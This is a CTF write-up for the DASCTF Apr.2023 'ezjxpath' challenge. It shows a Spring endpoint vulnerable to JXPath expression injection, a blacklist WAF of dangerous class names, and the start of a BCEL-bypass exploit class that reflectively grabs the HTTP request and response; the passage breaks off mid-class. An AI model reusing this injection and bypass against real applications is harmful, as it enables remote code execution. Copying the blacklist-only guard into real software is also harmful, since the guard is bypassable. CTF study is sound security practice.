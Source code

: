 # DASCTF Apr.2023 X SU战队2023开局之战

ezjxpath

```java
@ResponseBody
@RequestMapping({"/hack"})
public String hack(@RequestParam(name = "query",required = true) String query) throws Exception {
    try {
        Waf waf = new Waf();
        if (!waf.check(query)) {
            return "try harder";
        } else {
            JXPathContext context = JXPathContext.newContext((Object)null);
            context.getValue(query);
            return "good job!";
        }
    } catch (Exception var4) {
        return "some thing wrong?";
    }
}

public class Waf {
    private List<String> blacklist = new ArrayList(Arrays.asList("java.lang", "Runtime", "org.springframework", "javax.naming", "Process", "ScriptEngineManager"));

    public boolean check(String s) throws UnsupportedEncodingException {
        if (s.isEmpty()) {
            return false;
        } else {
            String reals = URLDecoder.decode(s, "UTF-8").toUpperCase(Locale.ROOT);

            for(int i = 0; i < this.blacklist.size(); ++i) {
                if (reals.toUpperCase(Locale.ROOT).contains(((String)this.blacklist.get(i)).toUpperCase(Locale.ROOT))) {
                    return false;
                }
            }

            return true;
        }
    }
}
```

WAF禁用了一些危险类

* BCEL绕过

```java
import java.lang.reflect.Method;
import java.util.Scanner;

public class Evil {
    static {
        try {
            Class c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method m = c.getMethod("getRequestAttributes");
            Object o = m.invoke(null);
            c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            m = c.getMethod("getResponse");
            Method m1 = c.getMethod("getRequest");
            Object resp = m.invoke(o);
```